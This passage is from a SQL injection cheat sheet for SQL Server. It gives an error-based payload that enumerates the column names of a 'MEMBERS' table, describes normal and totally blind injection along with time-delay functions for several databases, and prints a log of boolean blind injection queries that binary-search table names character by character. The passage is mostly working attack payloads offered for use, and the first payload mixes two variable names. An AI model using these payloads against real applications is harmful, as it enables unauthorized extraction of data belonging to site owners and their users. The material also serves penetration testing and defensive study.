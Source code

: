 
### Fast way to extract data from Error Based SQL Injections in SQL Server (S)

`';BEGIN DECLARE @rt varchar(8000) SET @rd=':' SELECT @rd=@rd+' '+name FROM syscolumns WHERE id =(SELECT id FROM sysobjects WHERE name = 'MEMBERS') AND name>@rd SELECT @rd AS rd into TMP_SYS_TMP end;--`

**Detailed Article :** [Fast way to extract data from Error Based SQL Injections](http://ferruh.mavituna.com/makale/fast-way-to-extract-data-from-error-based-sql-injections/)  

## Blind SQL Injections

### About Blind SQL Injections

In a quite good production application generally  **you can not see error responses on the page**, so you can not extract data through Union attacks or error based attacks. You have to do use Blind SQL Injections attacks to extract data. There are two kind of Blind Sql Injections.

**Normal Blind**, You can not see a response in the page but you can still determine result of a query from response or HTTP status code  
**Totally Blind**, You can not see any difference in the output in any kind. This can be an injection a logging function or similar. Not so common though.

In normal blinds you can use  **if statements**  or abuse  **WHERE query in injection**(_generally easier_), in totally blinds you need to use some waiting functions and analyze response times. For this you can use  **WAIT FOR DELAY '0:0:10'** in SQL Server, BENCHMARK() in MySQL,  **pg_sleep(10)** in PostgreSQL, and some PL/SQL tricks in ORACLE.

#### Real and a bit Complex Blind SQL Injection Attack Sample

This output taken from a real private Blind SQL Injection tool while exploiting SQL Server back ended application and enumerating table names. This requests done for first char of the first table name. SQL queries a bit more complex then requirement because of automation reasons. In we are trying to determine an ascii value of a char via binary search algorithm.

_**TRUE**  and  **FALSE**  flags mark queries returned true or false._

`**TRUE**  : SELECT ID, Username, Email FROM [User]WHERE ID = 1 AND ISNULL(ASCII(SUBSTRING((SELECT TOP 1 name FROM sysObjects WHERE xtYpe=0x55 AND name NOT IN(SELECT TOP 0 name FROM sysObjects WHERE xtYpe=0x55)),1,1)),0)>78--  
  
**FALSE**  : SELECT ID, Username, Email FROM [User]WHERE ID = 1 AND ISNULL(ASCII(SUBSTRING((SELECT TOP 1 name FROM sysObjects WHERE xtYpe=0x55 AND name NOT IN(SELECT TOP 0 name FROM sysObjects WHERE xtYpe=0x55)),1,1)),0)>103--  
  
**TRUE**  : SELECT ID, Username, Email FROM [User]WHERE ID = 1 AND ISNULL(ASCII(SUBSTRING((SELECT TOP 1 name FROM sysObjects WHERE xtYpe=0x55 AND name NOT IN(SELECT TOP 0 name FROM sysObjects WHERE xtYpe=0x55)),1,1)),0)<103--  
  
**FALSE**  : SELECT ID, Username, Email FROM [User]WHERE ID = 1 AND ISNULL(ASCII(SUBSTRING((SELECT TOP 1 name FROM sysObjects WHERE xtYpe=0x55 AND name NOT IN(SELECT TOP 0 name FROM sysObjects WHERE xtYpe=0x55)),1,1)),0)>89--  
  